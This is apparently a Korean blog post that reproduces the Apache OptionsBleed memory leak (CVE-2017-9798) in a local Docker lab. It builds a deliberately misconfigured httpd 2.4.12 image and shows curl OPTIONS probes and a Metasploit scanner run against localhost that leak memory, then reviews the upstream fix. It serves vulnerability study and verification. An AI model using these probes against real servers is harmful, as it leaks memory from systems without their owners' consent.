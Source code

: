 ```yaml
---
layout: post
title: "Apache OptionsBleed 취약점(CVE-2017-9798)을 검증"
categories: [보안, 취약점]
tags: [취약점, 스캐너, OptionsBleed]
toc: true
last_modified_at: 2023-08-10 14:02:00 +0900
---
```


# 개요
- Apache OptionsBleed 취약점(CVE-2017-9798)을 검증해본다. 
- 이 취약점은 use-after-free (해제된 메모리를 사용) 때문에 발생하는 취약점이다. 
- 취약한 환경을 구성해보고 스캐너를 돌려서 탐지되는지 확인해본다. 

# 취약한 환경 구성하기
- 이 버그는 특정 Apache버전(2.2.34과 2.4.27까지의 2.4.x버전)에서 특정 설정미스가 있을 때 발생한다고 한다. 
- 설정은 Apache의 .htaccess파일의 Limit 지시자(directive)를 설정하는 부분이다. 
- Limit 지시자는 [여기](https://httpd.apache.org/docs/2.4/mod/core.html#limit)에서 사용법을 알 수 있다. 

## Docker 를 사용해서 구성하기
- 먼저 취약한 버전의 Apache 이미지를 Dockerhub에서 구할 수 있는지 확인해본다. 
- 운이 좋게도 2.4.12버전이 있는 것을 확인할 수 있었다. 

### 설정파일 구성하기 
먼저 다음 커맨드를 실행해서 디폴트 설정파일을 얻어온다. 

```sh
docker run --rm httpd:2.4.12 cat /usr/local/apache2/conf/httpd.conf > my-httpd.conf
```

### .htaccess 파일 만들기
.htaccess파일을 다음과 같이 작성한다. acbce 자리에는 원래 허용할 HTTP 메서드가 적혀있어야 한다. 일부러 취약점을 유도하기 위해 잘못된 설정을 적었다. 이 파일은 추후 DocumentRoot로 복사할 것이다. 

```
<Limit abcde>
    Allow from 127.0.0.1
    Deny from all
</Limit>
```

### 설정파일 변경하기 (.htaccess가 동작하도록)
- DocumentRoot 디렉토리 설정부분의 `AllowOverride`를 `None`에서 `All`로 변경한다. (값이 None이면 .htaccess가 무효화된다.)

파일 수정시 주의점
- 설정파일을 노트패드로 연다. (VS Code등의 에디터로 수정하면 Unicode로 저장되어서 나중에 구동할 때 `Invalid command '\xff\xfe#', perhaps misspelled or defined by a module not included in the server configuration` 에러가 발생한다.)
- 저장시에는 꼭 문자코드를 ANSI로 설정해서 저장한다. (https://www.spinics.net/lists/apache-users/msg75041.html)

```conf
DocumentRoot "/usr/local/apache2/htdocs"
<Directory "/usr/local/apache2/htdocs">
    #
    # Possible values for the Options directive are "None", "All",
    # or any combination of:
    #   Indexes Includes FollowSymLinks SymLinksifOwnerMatch ExecCGI MultiViews
    #
    # Note that "MultiViews" must be named *explicitly* --- "Options All"
    # doesn't give it to you.
    #
    # The Options directive is both complicated and important.  Please see
    # http://httpd.apache.org/docs/2.4/mod/core.html#options
    # for more information.
    #
    Options Indexes FollowSymLinks

    #
    # AllowOverride controls what directives may be placed in .htaccess files.
    # It can be "All", "None", or any combination of the keywords:
    #   AllowOverride FileInfo AuthConfig Limit
    #
    AllowOverride All

    #
    # Controls who can get stuff from this server.
    #
    Require all granted
</Directory>

```

### Dockerfile 작성하기 
다음 Dockerfile을 만든다. 

```
FROM httpd:2.4.12
COPY .htaccess /usr/local/apache2/htdocs/
COPY index.html /usr/local/apache2/htdocs/
```

### index.html 파일 작성
웹서버가 잘 동작중인 것을 확인하기 위해 index.html 파일을 작성한다. 

```html
<html>
<h1>Apache OptionsBleed POC (CVE-2017-9798)</h1>
</html>
```


### 이미지 빌드

```sh
docker build --tag optionsbleed:httpd_2.4.12 .
```


### 이미지 실행하기 
- 호스트의 포트번호는 대충 안 겹치는 포트를 지정한다. 여기에서는 500번 포트를 지정했다. 

```sh 
docker run -p 500:80 -d --rm optionsbleed:httpd_2.4.12 
```

## 동작확인
OPTIONS로 허용하는 메서드를 웹 서버에 문의해본다. 응답헤더의 Allow부분에 이상한 문자가 출력되는 것을 알 수 있다. 취약점을 확인하는데 성공했다! 

```sh
$ curl -sI -X OPTIONS http://localhost/
HTTP/1.1 200 OK
Date: Thu, 10 Aug 2023 06:37:32 GMT
Server: Apache/2.4.12 (Unix)
Allow: 腎ﾁ=~,赤ﾀ=~,慎ﾁ=~,GET,HEAD,POST,OPTIONS,TRACE
Content-Length: 0
Content-Type: text/html


```

참고로 다음 명령으로 여러번(100번) 반복해서 curl을 수행할 수 있다. 

```sh
for i in {1..100}; do curl -sI -X OPTIONS http://localhost/|grep -i "allow:"; done
```

![OptionsBleed실행한 모습](/images/options-bleed-poc.png)

# 스캐너 돌려보기
그러면 스캐너도 한번 돌려본다. Metasploit의 스캐너를 사용한다. 스캔 대상 서버는 다른 프로그램과 포트가 겹치지 않도록 500번 포트로 구동했다. 

제대로 취약하다고 판정된 것을 확인했다. 

```sh
msfconsole
use auxiliary/scanner/http/apache_optionsbleed
msf6 auxiliary(scanner/http/apache_optionsbleed) > set RHOSTS localhost
RHOSTS => localhost
msf6 auxiliary(scanner/http/apache_optionsbleed) > set RPORT 500
RPORT => 500
msf6 auxiliary(scanner/http/apache_optionsbleed) > exploit

[+] Request 1: [OptionsBleed Response] -> GET,HEAD,POST,OPTIONS,▒▒},▒T},▒t},TRACE
[+] Request 2: [OptionsBleed Response] -> GET,HEAD,POST,OPTIONS,▒T},▒t},▒▒},TRACE
[+] Request 9: [OptionsBleed Response] -> ▒▒},▒T},▒▒},GET,HEAD,POST,OPTIONS,TRACE
[+] Request 38: [OptionsBleed Response] -> ▒},▒▒},▒t},▒T},GET,HEAD,POST,OPTIONS,TRACE
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

![스캐너 실행 결과](/images/options-bleed-metasploit-exploit.png)



# Apache 코드 분석 
모처럼이니까 Apache 코드도 어떻게 바꼈는지 훑어본다.

수정된 코드는 여기에서 확인할 수 있다. 

https://github.com/apache/httpd/commit/4cc27823899e070268b906ca677ee838d07cf67a

![Optionsbleed수정된 코드](/images/options-bleed-code.png)

- 코드를 보아하니, 수정되기 전에는 .htaccess 에 기술한 HTTP메서드가 실행시점(runtime)에 동적으로 등록이 가능했던 것 같다. 
- 1) 실행시점에 메서드가 등록된다. 2) 기존에 존재하지 않는 메서드였다. 라는 두 가지 조건으로 use-after-free 가 되는 것일까?
- 수정 후에는 런타임에 메서드를 등록하는 부분에 안전조치가 추가된 것으로 보인다. (최초 init시점에만 등록이 가능하도록 바뀐 것 같다.)
- 운좋게도 [TrendMicro사의 블로그](https://www.trendmicro.com/ja_jp/research/17/j/optionsbleed-vulnerability-in-the-apache-http-server.html)에서 아주 상세한 코드 설명을 찾았다. 일본어지만 크롬 번역기능을 사용하면 된다. 

내가 이해한 것을 간략하게 적어본다. 
- 아파치에는 사용가능한 HTTP메서드도 글로벌 풀로 관리한다. (METHOD_REGISTRY) 
- .htaccess에 존재하지 않는 HTTP 메서드로 Limit 지시문을 정의하면 httpd를 시작한 후 새 HTTP 메서드가 추가된다. 
- 이 때, 글로벌 풀에 새롭게 추가되는데, 새롭게 추가된 후에 포인터가 정확히 데이터가 끝나는 부분을 가리키는게 아니라 여유공간을 가리키는 버그로 인해, 이 여유공간의 데이터가 함께 Allow 헤더에 추가되는 것으로 보인다. 

# 참고
- https://blog.fuzzing-project.org/60-Optionsbleed-HTTP-OPTIONS-method-can-leak-Apaches-server-memory.html
- https://bz.apache.org/bugzilla/show_bug.cgi?id=61207
- https://www.tenable.com/plugins/nessus/103838
- https://github.com/hannob/optionsbleed
- https://github.com/brokensound77/OptionsBleed-POC-Scanner
- https://hackerone.com/reports/269568
- https://www.cve.org/CVERecord?id=CVE-2017-9798
- https://www.trendmicro.com/ja_jp/research/17/j/optionsbleed-vulnerability-in-the-apache-http-server.html